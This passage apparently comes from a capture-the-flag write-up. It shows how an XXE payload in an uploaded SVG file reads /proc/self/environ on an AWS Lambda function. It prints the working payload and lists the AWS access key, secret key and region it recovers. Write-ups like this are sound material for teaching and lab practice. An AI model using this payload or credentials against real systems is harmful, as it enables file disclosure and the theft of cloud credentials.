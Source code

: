 Lambda functions is a part of the AWS suite and they store the AWS creds (AWS access key and AWS secret access key) in it's environment variables. 

We can curate a XXE payload file called `pwn.svg` to obtain the contents of the `/proc/self/environ` file which contains the environment variables data/

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [
<!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<userInfo>
 <text>&xxe;</text>
</userInfo>

```

Upload it.

![web_upload_link](Clouded.assets/web_upload_link.png)

We can download the file using the shareable file URL and verify that it contains the content of the `/proc/self/environ` file.

We can obtain the necessary informatinon - 

`AWS_ACCESS_KEY` - `AKIA5M34BDN8GCJGRFFB` (usually these are 20 chars long so retrieve the first 20 chars of the text shown)

`AWS_SECRET_ACCESS_KEY` - `eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY`

`AWS_DEFAULT_REGION` - `us-east-1`
